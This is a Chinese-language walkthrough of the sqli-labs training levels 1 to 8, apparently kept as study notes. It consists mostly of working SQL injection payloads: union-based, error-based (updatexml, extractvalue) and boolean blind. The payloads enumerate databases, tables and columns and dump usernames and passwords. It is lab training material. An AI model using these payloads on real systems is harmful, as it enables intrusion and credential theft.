

# 第一关

> 单引号闭合

**判断注入类型**

```sql
?id=1'
```

**获取字段数**

```sql
?id=1' order by 1 --+
?id=1' order by 2 --+
?id=1' order by 3 --+
?id=1' order by 4 --+  #报错
```

一共三个字段

**获取显示位**

```sql
?id=1’ union select 1,2,3 --+
# 猜测到有用LIMIT语句控制显示内容，那我们就传入
?id=-1’ union select 1,2,3 --+
```

显示位为2、3可以显示内容

**获取数据库和表名**

```sql
#站点下的所有库
?id=-1 union select 1,2,group_concat(schema_name) from information_schema.schemata --+
#当前库
?id=-1' union select 1,2,database() --+
```

```sql
# 也可以一次性显示数据库和表名，因为有两个显示位
?id=-1' union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema=database()  --+
```


**获取字段**

```sql
?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_schema ="security" and   table_name='users'--+
```


**获取数据**

```sql
?id=-1' union select 1,2,group_concat(concat_ws("-",username,password)) from users  --+
```


```sql
?id=-1' union select 1,database(),group_concat(concat_ws("-",username,password)) from users  --+
```


```sql
?id=-1' union select 1,group_concat(username),group_concat(password) from users  --+
```


# 第二关

> 数字型

**判断注入类型**

```sql
?id=1 and 1=2
```

**判断字段数**

**判断显示位**

**获取数据库和版本信息**

```sql
?id=-1 union select 1,database(),version()  --+
```

**获取表名**

```sql
?id=-1 union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema=database()  --+
```

**获取字段名**

```sql
?id=-1 union select 1,database(),group_concat(column_name) from information_schema.columns  where table_name='users' --+
```

**获取数据**

```sql
?id=-1 union select 1,2,group_concat(concat_ws("-",username,password)) from users --+
```

# 第三关

> sql语句是单引号字符型且有括号

```sql
?id=2')--+
?id=1') order by 3--+
?id=-1') union select 1,2,3--+
?id=-1') union select 1,database(),version()--+
?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
?id=-1') union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
?id=-1') union select 1,2,group_concat(username ,id , password) from users--+
```


# 第四关

> sql语句是双引号字符型且有括号

```SQL
?id=1") order by 3--+
?id=-1") union select 1,2,3--+
?id=-1") union select 1,database(),version()--+
?id=-1") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
?id=-1") union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
?id=-1") union select 1,2,group_concat(username ,id , password) from users--+
```


# 第五关

获取数据库名

```sql
http://192.168.80.139/sqli/Less-5/?id=1' and updatexml(1,concat(0x7e,(select(database())),0x7e),1) --+
```

`count`查看有多少表

```sql
http://192.168.80.139/sqli/Less-5/?id=1' and updatexml(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema=database()),0x7e),1) --+
```


通过`limit`一个一个查看

```sql
http://192.168.80.139/sqli/Less-5/?id=1' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 3,1),0x7e),1) --+
```


查看有多少个字段

```sql
http://192.168.80.139/sqli/Less-5/?id=1' and updatexml(1,concat(0x7e,(select count(column_name) from information_schema.columns where table_schema=database() and table_name='users' ),0x7e),1) --+
```



使用`limit`一个一个查看

```sql
http://192.168.80.139/sqli/Less-5/?id=1' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database() and table_name='users'  limit 1,1 ),0x7e),1) --+
```


得到username字段

```sql
http://192.168.80.139/sqli/Less-5/?id=1' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database() and table_name='users'  limit 2,1 ),0x7e),1) --+
```


得到password字段

# 第六关

双引号闭合

```
?id=1" and 1=2 --+  页面没显示
```

利用报错注入获取数据库

使用两个函数获取数据库名

```sql
?id=1" and updatexml(1,concat(0x7e,(select database()),0x7e),1)  --+   
```


```sql
?id=1" and extractvalue(1,concat(0x7e,(select database()),0x7e)) --+   
```

获取表名

固定套路

```sql
?id=1" and extractvalue(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema=database()),0x7e))    --+   
```


获取到可利用的表

```sql
?id=1" and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 3,1),0x7e))    --+ 
```


获取字段

```sql
?id=1" and extractvalue(1,concat(0x7e,(select count(column_name) from information_schema.columns where table_schema=database()  and table_name='users' ),0x7e))    --+   
```

username字段

```sql
?id=1" and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database()  and table_name='users' limit 1,1 ),0x7e))    --+   
```


password字段


```sql
?id=1" and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database()  and table_name='users' limit 2,1 ),0x7e))    --+   
```

# 第七关

判断类型

```
?id=1')  --+
```


# 第八关

```sql
?id=1' and 1=1 --+   #  you are in.........
?id=1' and 1=2 --+   # 页面没有显示
```

使用布尔盲注

### 获取数据库长度

```sql
?id=1' and length(database())>7 --+   # you are in ..........
?id=1' and length(database())>8 --+   #页面没有显示
说明数据库长度是8
?id=1' and length(database())=8 --+
```

### 按位获取数据库名

#### 第一位

```sql
?id=1' and ascii(substr(database(),1,1))>114--+   #you are in ..........
?id=1' and ascii(substr(database(),1,1))>115--+    #页面没有显示
?id=1' and ascii(substr(database(),1,1))=115--+   #you are in ..........
 说明数据库名的第一个字母ascii码是115，可以去ascii对照表上查看
```

[ascii对照表](https://ascii.org.cn/)


